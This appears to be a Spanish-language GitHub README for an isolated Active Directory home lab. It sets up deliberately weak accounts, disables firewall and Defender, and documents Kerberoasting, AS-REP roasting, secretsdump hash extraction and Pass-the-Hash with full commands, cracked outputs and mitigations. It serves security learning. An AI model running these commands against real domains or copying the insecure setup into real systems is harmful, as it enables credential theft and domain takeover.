# Active Directory Home Lab 🏴
 
Entorno de laboratorio virtualizado para practicar técnicas de ataque y defensa sobre Active Directory.
Montado íntegramente en local con VMware Workstation — entorno 100% aislado, sin sistemas reales implicados.
 
> ⚠️ **Disclaimer:** Este proyecto es exclusivamente educativo. Todas las técnicas documentadas se ejecutan únicamente en este entorno controlado. Nunca apliques estas técnicas en sistemas sin autorización expresa y por escrito.
 
---
 
## 🗺️ Arquitectura del laboratorio
 
```
┌──────────────────────────────────────────────────────┐
│           VMnet2 — 192.168.100.0/24                  │
│                (Host-only · Aislada)                 │
│                                                      │
│  ┌─────────────────────┐   ┌──────────────────────┐  │
│  │  WIN-DC01           │   │  Kali Linux          │  │
│  │  Windows Server 2022│   │  192.168.100.50      │  │
│  │  192.168.100.10     │   │  (atacante)          │  │
│  │  AD DS · DNS · DHCP │   │                      │  │
│  └─────────────────────┘   └──────────────────────┘  │
│                                                      │
│  ┌──────────────────┐   ┌──────────────────────────┐ │
│  │  WIN-PC01        │   │  WIN-PC02                │ │
│  │  Windows 10      │   │  Windows 10              │ │
│  │  192.168.100.21  │   │  192.168.100.22          │ │
│  │  (víctima 1)     │   │  (víctima 2)             │ │
│  └──────────────────┘   └──────────────────────────┘ │
└──────────────────────────────────────────────────────┘
```
 
| VM | OS | IP | RAM | Rol |
|---|---|---|---|---|
| WIN-DC01 | Windows Server 2022 | 192.168.100.10 | 3 GB | Domain Controller, DNS, DHCP |
| WIN-PC01 | Windows 10 | 192.168.100.21 | 2.5 GB | Cliente unido al dominio |
| WIN-PC02 | Windows 10 | 192.168.100.22 | 2.5 GB | Cliente unido al dominio |
| Kali Linux | Kali Linux 2024.x | 192.168.100.50 | 4 GB | Máquina atacante |
 
**Dominio:** `lab.local` · **NetBIOS:** `LAB` · **Red:** VMware Host-only (VMnet2)
 
---
 
## 🛠️ Requisitos
 
- VMware Workstation 17+
- ISO Windows Server 2022 Evaluation (descarga gratuita — Microsoft)
- ISO Windows 10 Evaluation (descarga gratuita — Microsoft)
- Kali Linux VM (descarga oficial — kali.org/get-kali → Virtual Machines)
- 12 GB RAM disponibles en el host
 
---
 
## 👤 Usuarios del laboratorio
 
| Usuario | Contraseña | Rol | Vulnerabilidad explotada |
|---|---|---|---|
| Administrator | P@ssw0rd123! | Domain Admin | — |
| jsmith | Password1 | Usuario estándar | Contraseña débil |
| mjohnson | Summer2023! | Usuario estándar | Contraseña débil |
| svc-sql | MYpassword123# | Service Account | **Kerberoastable** (SPN registrado) |
| localadmin | P@ssw0rd123! | Domain Admin | **Pass-the-Hash** |
| asrepuser | Welcome1! | Usuario estándar | **AS-REP Roastable** (pre-auth desactivada) |
 
---
 
## ⚙️ Setup paso a paso
 
### Fase 1 — Domain Controller (WIN-DC01)
 
#### Red — IP estática
 
```powershell
New-NetIPAddress -InterfaceAlias "Ethernet0" -IPAddress 192.168.100.10 -PrefixLength 24 -DefaultGateway 192.168.100.1
Set-DnsClientServerAddress -InterfaceAlias "Ethernet0" -ServerAddresses 192.168.100.10
```
 
#### Instalar y promover AD DS
 
```powershell
Install-WindowsFeature -Name AD-Domain-Services -IncludeManagementTools
 
Install-ADDSForest `
  -DomainName "lab.local" `
  -DomainNetbiosName "LAB" `
  -ForestMode "WinThreshold" `
  -DomainMode "WinThreshold" `
  -InstallDns:$true `
  -SafeModeAdministratorPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force) `
  -Force:$true
```
 
#### Configurar DHCP
 
```powershell
Install-WindowsFeature -Name DHCP -IncludeManagementTools
Add-DhcpServerInDC -DnsName "WIN-DC01.lab.local" -IPAddress 192.168.100.10
Add-DhcpServerv4Scope -Name "Lab Network" -StartRange 192.168.100.100 -EndRange 192.168.100.200 -SubnetMask 255.255.255.0 -State Active
Set-DhcpServerv4OptionValue -ScopeId 192.168.100.0 -Router 192.168.100.1 -DnsServer 192.168.100.10 -DnsDomain "lab.local"
Add-DhcpServerv4ExclusionRange -ScopeId 192.168.100.0 -StartRange 192.168.100.1 -EndRange 192.168.100.99
```
 
#### Crear usuarios vulnerables
 
```powershell
# OUs
New-ADOrganizationalUnit -Name "Lab Users" -Path "DC=lab,DC=local"
New-ADOrganizationalUnit -Name "Service Accounts" -Path "DC=lab,DC=local"
 
# Usuarios estándar
New-ADUser -Name "John Smith" -SamAccountName "jsmith" -UserPrincipalName "jsmith@lab.local" `
  -Path "OU=Lab Users,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "Password1" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
 
New-ADUser -Name "Mary Johnson" -SamAccountName "mjohnson" -UserPrincipalName "mjohnson@lab.local" `
  -Path "OU=Lab Users,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "Summer2023!" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
 
# Service account con SPN — vulnerable a Kerberoasting
New-ADUser -Name "SQL Service" -SamAccountName "svc-sql" -UserPrincipalName "svc-sql@lab.local" `
  -Path "OU=Service Accounts,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "MYpassword123#" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
setspn -A MSSQLSvc/WIN-DC01.lab.local:1433 LAB\svc-sql
setspn -A MSSQLSvc/WIN-DC01:1433 LAB\svc-sql
 
# Admin de dominio — vulnerable a Pass-the-Hash
New-ADUser -Name "Local Admin" -SamAccountName "localadmin" -UserPrincipalName "localadmin@lab.local" `
  -Path "OU=Lab Users,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "P@ssw0rd123!" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
Add-ADGroupMember -Identity "Admins. del dominio" -Members "localadmin"
 
# Usuario sin pre-autenticación Kerberos — vulnerable a AS-REP Roasting
New-ADUser -Name "AS Rep User" -SamAccountName "asrepuser" -UserPrincipalName "asrepuser@lab.local" `
  -Path "OU=Lab Users,DC=lab,DC=local" `
  -AccountPassword (ConvertTo-SecureString "Welcome1!" -AsPlainText -Force) `
  -Enabled $true -PasswordNeverExpires $true
Set-ADAccountControl -Identity "asrepuser" -DoesNotRequirePreAuth $true
```
 
**Verificación:**
 


*IP estática asignada al DC — 192.168.100.10*
 


*lab.local promovido correctamente*
 


*Servicios del DC sin errores*
 


*Scope DHCP activo — rango 192.168.100.100-200*
 


*Service account con SPN registrado — objetivo Kerberoasting*
 


*Usuarios del laboratorio creados y habilitados*
 
---
 
### Fase 2 — Clientes Windows 10 (WIN-PC01 / WIN-PC02)
 
#### Red — IPs estáticas
 
**WIN-PC01:**
```powershell
Remove-NetRoute -InterfaceAlias "Ethernet0" -DestinationPrefix "0.0.0.0/0" -Confirm:$false
New-NetIPAddress -InterfaceAlias "Ethernet0" -IPAddress 192.168.100.21 -PrefixLength 24 -DefaultGateway 192.168.100.1
Set-DnsClientServerAddress -InterfaceAlias "Ethernet0" -ServerAddresses 192.168.100.10
```
 
**WIN-PC02:**
```powershell
Remove-NetRoute -InterfaceAlias "Ethernet0" -DestinationPrefix "0.0.0.0/0" -Confirm:$false
New-NetIPAddress -InterfaceAlias "Ethernet0" -IPAddress 192.168.100.22 -PrefixLength 24 -DefaultGateway 192.168.100.1
Set-DnsClientServerAddress -InterfaceAlias "Ethernet0" -ServerAddresses 192.168.100.10
```
 
#### Unir al dominio
 
```powershell
Add-Computer -DomainName "lab.local" -Credential (Get-Credential) -Restart
# Credenciales: LAB\Administrador / P@ssw0rd123!
```
 
#### Añadir localadmin como admin local (en cada cliente)
 
```powershell
Add-LocalGroupMember -Group "Administradores" -Member "LAB\localadmin"
```
 
#### Deshabilitar Firewall y Defender (en cada cliente)
 
```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
Set-MpPreference -DisableRealtimeMonitoring $true
```
 
**Verificación:**
 


*IP estática asignada a WIN-PC01 — 192.168.100.21*
 


*IP estática asignada a WIN-PC02 — 192.168.100.22*
 


*DC01, PC01 y PC02 registrados en el dominio*
 
---
 
### Fase 3 — Kali Linux (atacante)
 
#### Red — IP estática
 
```bash
echo "nameserver 192.168.100.10" | sudo tee /etc/resolv.conf
 
sudo nano /etc/network/interfaces
```
 
```
auto eth0
iface eth0 inet static
    address 192.168.100.50
    netmask 255.255.255.0
    gateway 192.168.100.1
    dns-nameservers 192.168.100.10
```
 
```bash
sudo systemctl restart networking
```
 
#### Verificación de conectividad
 
```bash
ping -c 3 192.168.100.10
nslookup lab.local 192.168.100.10
```
 
**Verificación:**
 


*IP estática asignada a Kali — 192.168.100.50*
 


*Conectividad con WIN-DC01 confirmada*
 


*Resolución DNS del dominio lab.local desde Kali*
 
---
 
## ⚔️ Ataques documentados
 
| Técnica | Herramienta | Estado |
|---|---|---|
| Enumeración AD | BloodHound CE + bloodhound-python | ✅ Completado |
| Kerberoasting | Impacket GetUserSPNs + John the Ripper | ✅ Completado |
| Pass-the-Hash | Impacket secretsdump + CrackMapExec | ✅ Completado |
| AS-REP Roasting | Impacket GetNPUsers + John the Ripper | ✅ Completado |
| DCSync | Impacket secretsdump | 🔄 En progreso |
 
---
 
## 🔍 Enumeración con BloodHound
 
### ¿Qué es?
 
BloodHound mapea todas las relaciones del dominio — usuarios, grupos, permisos, rutas de ataque — y las visualiza en un grafo. Es el primer paso en cualquier pentest de AD: sin enumeración no sabes qué atacar ni cómo llegar a Domain Admin.
 
### Ejecución
 
```bash
# Recopilar datos del dominio — cualquier usuario válido sirve
bloodhound-python \
  -u jsmith \
  -p 'Password1' \
  -d lab.local \
  -ns 192.168.100.10 \
  -c all \
  --zip
 
# Arrancar BloodHound CE
bloodhound --no-sandbox
 
# Importar el .zip generado desde la interfaz web
# http://127.0.0.1:8080
```
 
### Query — encontrar cuentas Kerberoastables
 
```cypher
MATCH (u:User {hasspn:true}) RETURN u
```
 
### Resultado
 
```
SVC-SQL@LAB.LOCAL  → Kerberoastable
KRBTGT@LAB.LOCAL   → Kerberoastable
```
 
**Verificación:**
 


*bloodhound-python recopila 3 equipos, 8 usuarios y 52 grupos*
 


*Dominio LAB.LOCAL mapeado en BloodHound CE*
 


*Query Cypher identifica SVC-SQL como objetivo Kerberoastable*
 
### Mitigación
 
- Principio de mínimo privilegio — revisar ACLs del dominio regularmente
- Limitar qué usuarios pueden hacer consultas LDAP masivas
- Monitorizar consultas LDAP anómalas con un SIEM
 
---
 
## 🎯 Kerberoasting
 
### ¿Qué es?
 
Kerberoasting explota el protocolo Kerberos para obtener tickets de servicio (TGS) cifrados con la contraseña de cuentas que tienen un SPN registrado. Cualquier usuario del dominio puede solicitar estos tickets y crackearlos offline sin generar alertas en el DC.
 
### Ejecución
 
```bash
# Paso 1 — Solicitar tickets TGS de cuentas con SPN
impacket-GetUserSPNs lab.local/jsmith:'Password1' \
  -dc-ip 192.168.100.10 \
  -request \
  -outputfile kerberoast.hash
 
# Paso 2 — Crackear el hash offline
john --format=krb5tgs \
  --wordlist=/usr/share/wordlists/rockyou.txt \
  kerberoast.hash
```
 
### Resultado
 
```
svc-sql : MYpassword123#
```
 
**Verificación:**
 


*TGS de svc-sql obtenido con credenciales de usuario estándar*
 


*John the Ripper crackea MYpassword123# en segundos*
 
### Mitigación
 
- Contraseñas de más de 25 caracteres en todas las service accounts
- Usar **Group Managed Service Accounts (gMSA)**
- Auditar cuentas con SPN: `Get-ADUser -Filter {ServicePrincipalName -ne "$null"}`
 
---
 
## 🔑 Pass-the-Hash
 
### ¿Qué es?
 
Pass-the-Hash aprovecha que Windows autentica usuarios mediante su hash NTLM. Si obtienes el hash de un usuario privilegiado, puedes autenticarte como él en cualquier máquina del dominio sin conocer su contraseña en texto claro.
 
### Ejecución
 
```bash
# Paso 1 — Extraer hashes NTLM del DC
impacket-secretsdump lab.local/localadmin:'P@ssw0rd123!'@192.168.100.10
 
# Hash NTLM de localadmin:
# localadmin:1106:aad3b435b51404eeaad3b435b51404ee:7dfa0531d73101ca080c7379a9bff1c7:::
 
# Paso 2 — Autenticarse con el hash sin contraseña
crackmapexec smb 192.168.100.0/24 \
  -u localadmin \
  -H 7dfa0531d73101ca080c7379a9bff1c7
```
 
### Resultado
 
```
[+] lab.local\localadmin:7dfa0531d73101ca080c7379a9bff1c7 (Pwn3d!)
```
 
**Verificación:**
 


*Hashes NTLM de todos los usuarios del dominio extraídos*
 


*Acceso como Domain Admin sin contraseña — Pwn3d!*
 
### Mitigación
 
- Deshabilitar NTLM donde sea posible y forzar Kerberos
- Activar **Windows Defender Credential Guard**
- Implementar **Protected Users Security Group** para cuentas privilegiadas
 
---
 
## 👻 AS-REP Roasting
 
### ¿Qué es?
 
AS-REP Roasting ataca cuentas que tienen desactivada la pre-autenticación Kerberos. Sin esta verificación, cualquiera puede solicitar un ticket cifrado con la contraseña del usuario y crackearlo offline — sin necesitar ninguna credencial válida del dominio.
 
### Ejecución
 
```powershell
# En el DC — crear usuario vulnerable
New-ADUser -Name "AS Rep User" -SamAccountName "asrepuser" `
  -AccountPassword (ConvertTo-SecureString "Welcome1!" -AsPlainText -Force) `
  -Enabled $true
Set-ADAccountControl -Identity "asrepuser" -DoesNotRequirePreAuth $true
```
 
```bash
# Desde Kali — obtener hash sin credenciales
impacket-GetNPUsers lab.local/asrepuser \
  -dc-ip 192.168.100.10 \
  -no-pass \
  -format john \
  -outputfile asrep.hash
 
# Crackear
john asrep.hash --wordlist=/usr/share/wordlists/rockyou.txt
john asrep.hash --show
```
 
### Resultado
 
```
asrepuser : Welcome1!
```
 
**Verificación:**
 


*DoesNotRequirePreAuth habilitado en asrepuser*
 


*Hash obtenido sin ninguna credencial del dominio*
 


*Welcome1! crackeado con John the Ripper*
 
### Mitigación
 
- Forzar pre-autenticación Kerberos en todos los usuarios
- Auditar cuentas vulnerables: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true}`
 
---
 
## 💀 DCSync
 
> 🔄 *En progreso*
 
---
 
## 🛡️ Resumen de mitigaciones
 
| Ataque | Mitigación |
|---|---|
| Enumeración BloodHound | Mínimo privilegio · Limitar consultas LDAP · Monitorizar con SIEM |
| Kerberoasting | Contraseñas +25 caracteres · Usar gMSA |
| Pass-the-Hash | Deshabilitar NTLM · Credential Guard · Protected Users |
| AS-REP Roasting | Forzar pre-autenticación Kerberos · Auditar cuentas periódicamente |
| DCSync | Restringir permisos de replicación (solo DCs reales) |
 
---
 
## 📚 Referencias
 
- [HackTricks — Active Directory Methodology](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
- [Impacket — GitHub](https://github.com/fortra/impacket)
- [BloodHound CE — GitHub](https://github.com/SpecterOps/BloodHound)
- [PayloadsAllTheThings — AD Attacks](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [TarlogicSecurity — Kerberos Cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- [CrackMapExec Wiki](https://wiki.porchetta.industries)
